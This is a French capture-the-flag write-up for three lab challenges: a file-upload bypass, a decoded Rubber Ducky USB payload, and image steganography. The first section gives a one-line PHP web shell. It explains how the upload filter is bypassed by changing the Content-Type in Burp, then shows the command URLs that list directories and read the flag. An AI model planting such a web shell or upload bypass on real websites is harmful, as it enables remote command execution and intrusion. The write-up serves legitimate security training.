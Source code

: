 # Secu
* 1 . Upload_medium
Il faut tout d'abord créer un fichier en `.php` comme par exemple, `payload.php`.
Ce dossier devra contenir les lignes suivantes :
```
<?php
echo shell_exec($_GET['cmd']);
?>*
```
Ensuite, nous avant de l'upload, nous utiliserons une extension de navigateur comme par exemple Foxy proxy et le logiciel Burp afin de pouvoir changer le fichier envoyé.
Grace a burp, nous devons modifier la ligne :
`Content-Type: application/octet-stream`
par :
`Content-Type: image/png`
Il faut ensuite appuyer sur forward dans Burp.
et enfin désactiver notre proxy.

On arrive sur la partie délicate, il faut ouvrir le fichier étant apparu sur la page.
Grace au php, nous avons accès au cmd depuis le lien du site, il suffit de le modifier un peu:
`http://ctf-labo.cyber-stuff.net/upload_medium/uploads/test.php?cmd=`

donc il suffit de mettre:
`ls` qui permet de lire le dossier
`%20` qui place des espaces
`-la` qui permet de voir les fichiers cachés
`../` qui permet de revenir en arrière

dans un vrai cmd, la commande nous donnerais:
`ls -la ../../`
et parmis les fichiers, nous voyeons un dossier qui s'appelle `.flag`

ensuite, nous remplaçons `ls -la` (ls%20-la) par `cat%20` et on rajoute a la fin le nom du fichier, se qui nous ouvre le fichier avec le flag a l'intérieur

`http://ctf-labo.cyber-stuff.net/upload_medium/uploads/test.php?cmd=cat%20../../.flag`




* 2 . The DSI's yellow usb key

Le rubber ducky hack, est donc un fichier intégré a une clef USB qui tape des commandes a notre place, ce qui permet de rapidement pirater une session laissée ouverte.

Donc une fois le fichier donné téléchargé, il faut d'abord le décomprésser (comme Winrar ou 7-zip)

et vous optenez un fichier `.dd`

Sous mac, il suffit d'entrer la commande 
`hdiutil attach -imagekey diskimage-class=CRawDiskImage dump.dd`
se qui nous donne un fichier `inject.bin`
et ensuite, nous utilisons un site afin de décoder le fichier inject.bin : 
`https://ducktoolkit.com/decoder/`

le decodage nous donne l'adresse d'un fichier exe qui est en faite un .txt contenant le flag


* 3 . I Lowe runnig

Cette fois si, c'est plutôt simple, il suffit de télécharger l'image et de l'upload sur ce site : 
`https://incoherency.co.uk/image-steganography/#unhide`
L'image contenait un texte caché étant donc le flag.
